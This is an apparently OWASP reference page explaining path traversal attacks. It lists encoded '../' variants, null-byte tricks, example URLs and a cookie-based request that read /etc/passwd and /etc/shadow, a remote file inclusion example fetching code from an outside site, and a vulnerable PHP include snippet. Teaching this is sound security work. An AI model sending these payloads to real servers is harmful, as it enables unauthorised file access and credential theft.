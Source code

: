 ```yaml
---

layout: col-sidebar
title: Path Traversal
author: 
contributors: 
permalink: /attacks/Path_Traversal
tags: attack, Path Traversal
auto-migrated: 1

---
```


## Overview

A path traversal attack (also known as directory traversal) aims to
access files and directories that are stored outside the web root
folder. By manipulating variables that reference files with
“dot-dot-slash (../)” sequences and its variations or by using
absolute file paths, it may be possible to access arbitrary files and
directories stored on file system including application source code or
configuration and critical system files. It should be noted that access
to files is limited by system operational access control (such as in the
case of locked or in-use files on the Microsoft Windows operating
system).

This attack is also known as “dot-dot-slash”, “directory traversal”,
“directory climbing” and “backtracking”.

## Related Security Activities

### How to Avoid Path Traversal Vulnerabilities

See the [OWASP Guide](:Category:OWASP_Guide_Project "wikilink") article
on how to [Avoid Path Traversal](File_System#Path_traversal "wikilink")
Vulnerabilities.

### How to Test for Path Traversal Vulnerabilities

See the [OWASP Testing
Guide](:Category:OWASP_Testing_Project "wikilink") article on how to
[Test for Path
Traversal](Testing_for_Path_Traversal_\(OWASP-AZ-001\) "wikilink")
Vulnerabilities.

## Description

### Request variations

Encoding and double encoding:

`%2e%2e%2f represents ../`
`%2e%2e/ represents ../`
`..%2f represents ../ `
`%2e%2e%5c represents ..\`
`%2e%2e\ represents ..\ `
`..%5c represents ..\ `
`%252e%252e%255c represents ..\ `
`..%255c represents ..\ and so on. `

**Percent encoding (aka URL encoding)**

Note that web containers perform one level of decoding on percent
encoded values from forms and URLs.

`..%c0%af represents ../ `
`..%c1%9c represents ..\ `

**OS specific**

UNIX

`Root directory:  “ / “ `
`Directory separator: “ / “`

WINDOWS

`Root directory: “  `<partition letter>` : \ “`
`Directory separator: “ / “ or “ \ ” `
`Note that windows allows filenames to be followed by extra . \ / characters.`

In many operating systems, null bytes %00 can be injected to terminate
the filename. For example, sending a parameter like:

`?file=secret.doc%00.pdf`

will result in the Java application seeing a string that ends with
".pdf" and the operating system will see a file that ends in ".doc".
Attackers may use this trick to bypass validation routines.

## Examples

### Example 1

The following examples show how the application deals with the resources
in use.

` http://some_site.com.br/get-files.jsp?file=report.pdf  `
` http://some_site.com.br/get-page.php?home=aaa.html  `
` http://some_site.com.br/some-page.asp?page=index.html  `

In these examples it’s possible to insert a malicious string as the
variable parameter to access files located outside the web publish
directory.

`  http://some_site.com.br/get-files?file=../../../../some dir/some file `

`  http://some_site.com.br/../../../../some dir/some file `

The following URLs show examples of \*NIX password file exploitation.

`http://some_site.com.br/../../../../etc/shadow  `
`http://some_site.com.br/get-files?file=/etc/passwd `

Note: In a windows system an attacker can navigate only in a partition
that locates web root while in the Linux he can navigate in the whole
disk.

### Example 2

It's also possible to include files and scripts located on external
website.

` http://some_site.com.br/some-page?page=http://other-site.com.br/other-page.htm/malicius-code.php   `

### Example 3

These examples illustrate a case when an attacker made the server show
the CGI source code.

` http://vulnerable-page.org/cgi-bin/main.cgi?file=main.cgi   `

### Example 4

This example was extracted from: Wikipedia - Directory Traversal

A typical example of vulnerable application code is:

    <nowiki>
    <?php
    $template = 'blue.php';
    if ( is_set( $_COOKIE['TEMPLATE'] ) )
       $template = $_COOKIE['TEMPLATE'];
    include ( "/home/users/phpguru/templates/" . $template );
    ?>
    </nowiki>

An attack against this system could be to send the following HTTP
request:

    GET /vulnerable.php HTTP/1.0
    Cookie: TEMPLATE=../../../../../../../../../etc/passwd

Generating a server response such as:

    HTTP/1.0 200 OK
    Content-Type: text/html
    Server: Apache

    root:fi3sED95ibqR6:0:1:System Operator:/:/bin/ksh
    daemon:*:1:1::/tmp:
    phpguru:f8fk3j1OIf31.:182:100:Developer:/home/users/phpguru/:/bin/csh

The repeated `../` characters after /home/users/phpguru/templates/ has
caused [include()](http://www.php.net/manual/en/function.include.php) to
traverse to the root directory, and then include the UNIX password file
[/etc/passwd](passwd "wikilink").

UNIX etc/passwd is a common file used to demonstrate **directory
traversal**, as it is often used by crackers to try cracking the
passwords.

### Absolute Path Traversal

The following URLs may be vulnerable to this attack:

`http://testsite.com/get.php?f=list`
`http://testsite.com/get.cgi?f=2`
`http://testsite.com/get.asp?f=test`

An attacker can execute this attack like this:

`http://testsite.com/get.php?f=/var/www/html/get.php`
`http://testsite.com/get.cgi?f=/var/www/html/admin/get.inc`
`http://testsite.com/get.asp?f=/etc/passwd`

When the web server returns information about errors in a web
application, it is much easier for the attacker to guess the correct
locations (e.g. path to the file with a source code, which then may be
displayed).

## Related [Threat Agents](Threat_Agents "wikilink")

  - [:Category: Information
    Disclosure](:Category:_Information_Disclosure "wikilink")

## Related [Attacks](Attacks "wikilink")

  - [Path Manipulation](Path_Manipulation "wikilink")
  - [Relative Path Traversal](Relative_Path_Traversal "wikilink")
  - [Resource Injection](Resource_Injection "wikilink")

## Related [Vulnerabilities](Vulnerabilities "wikilink")

  - [:Category:Input Validation
    Vulnerability](:Category:Input_Validation_Vulnerability "wikilink")

## Related [Controls](Controls "wikilink")

  - [:Category:Input Validation](:Category:Input_Validation "wikilink")

## References

  - <http://cwe.mitre.org/data/definitions/22.html>
  - <http://www.webappsec.org/projects/threat/classes/path_traversal.shtml>

\[\[Category:FIXME|link not working

  - <http://cve.mitre.org/docs/plover/SECTION.9.6.html#PATH.TRAV>

\]\]

[Category:OWASP ASDR Project](Category:OWASP_ASDR_Project "wikilink")
[this link doesn't exist. Do you want to change this to a different link
or add this category?](Category:FIXME "wikilink") [Category:Abuse of
Functionality](Category:Abuse_of_Functionality "wikilink")
[Category:Path Traversal
Attack](Category:Path_Traversal_Attack "wikilink") [Category:Resource
Manipulation](Category:Resource_Manipulation "wikilink")
[Category:Attack](Category:Attack "wikilink")